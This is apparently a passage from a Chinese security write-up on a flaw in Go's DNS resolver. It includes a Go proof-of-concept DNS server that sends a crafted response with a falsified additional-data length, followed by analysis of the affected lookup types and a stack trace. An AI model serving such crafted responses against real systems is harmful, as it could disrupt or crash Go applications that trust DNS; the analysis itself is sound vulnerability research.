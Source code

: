 ```
}
 
func hanldUdp(conn *net.UDPConn) {
  var buf [512]byte
  n, addr, _ := conn.ReadFromUDP(buf[0:])
  fmt.Println(buf[:n])
  // 修改这个值为一个比实际 Additional Data 大的值。通常 go 获取到的 Data 都是 0
  hdrLength := "0001"
  // 下面数据中的 hdrType 也已经进行了修改
  data, err := hex.DecodeString("daa581820001000000000001047465737403646e73046f31687903636f6d000002000100003104d000000000" + hdrLength)
  // 修改 dns resp 的 id
  data[0] = buf[0]
  data[1] = buf[1]
  _, err = conn.WriteToUDP(data, addr)
  if err != nil {
    fmt.Println("发送响应失败：", err)
    return
  }
}
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Pf9eicDVDMxEBdzjmj00CU9UlibT4RaLN22FI75fa5SsGNv1SurRfl054fNyFJLibgEm7oUGPFE9J6AKSEfgbiawPQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Pf9eicDVDMxEBdzjmj00CU9UlibT4RaLN2B4bG24e8qH35gLK55NrBqzNmZCw2LRWTKSobSYIQuTsUn4IA5W3FdA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Pf9eicDVDMxEBdzjmj00CU9UlibT4RaLN2b5p13xfoWOtlvhpNqXpLficxMzjUHmNCtFelPm3iafkDkjK2DD20iatGw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
**5**  
  
**影响场景**  
  
  
  
根据   
extractExtendedRCode 的调用点可以看到，  
TXT\NS\MX\SRV… 等会受到影响，进一步分析函数调用发现，对于   
CNAME 等其实也是受影响了。总之都会触发到  
 tryOneName 处。  
  
  
**net.Dial、http.XXX 场景**  
  
  
理论上，应该影响到 net.Dial 这些场景才对。但实际上没有触发。  
  
```
net.(*Resolver).lookupIP (/opt/homebrew/Cellar/go/1.22.1/libexec/src/net/lookup_unix.go:63)
net.(*Resolver).lookupIP-fm (未知源:1)
net.init.func1 (/opt/homebrew/Cellar/go/1.22.1/libexec/src/net/hook.go:22)
net.(*Resolver).lookupIPAddr.func1 (/opt/homebrew/Cellar/go/1.22.1/libexec/src/net/lookup.go:334)
singleflight.(*Group).doCall (/opt/homebrew/Cellar/go/1.22.1/libexec/src/internal/singleflight/singleflight.go:93)
singleflight.(*Group).DoChan.gowrap1 (/opt/homebrew/Cellar/go/1.22.1/libexec/src/internal/singleflight/singleflight.go:86)
runtime.goexit (/opt/homebrew/Cellar/go/1.22.1/libexec/src/runtime/asm_arm64.s:1222)

... 进入到匿名函数中
net.(*Resolver).lookupIPAddr (/opt/homebrew/Cellar/go/1.22.1/libexec/src/net/lookup.go:342)
net.(*Resolver).internetAddrList (/opt/homebrew/Cellar/go/1.22.1/libexec/src/net/ipsock.go:288)
net.(*Resolver).resolveAddrList (/opt/homebrew/Cellar/go/1.22.1/libexec/src/net/dial.go:283)
net.(*Dialer).DialContext (/opt/homebrew/Cellar/go/1.22.1/libexec/src/net/dial.go:490)
net.(*Dialer).Dial (/opt/homebrew/Cellar/go/1.22.1/libexec/src/net/dial.go:434)
net.Dial (/opt/homebrew/Cellar/go/1.22.1/libexec/src/net/dial.go:401)
main.main (/Users/ymoon/workspace/project/golang/1-CloudMitm/test/test_dns.go:53)
```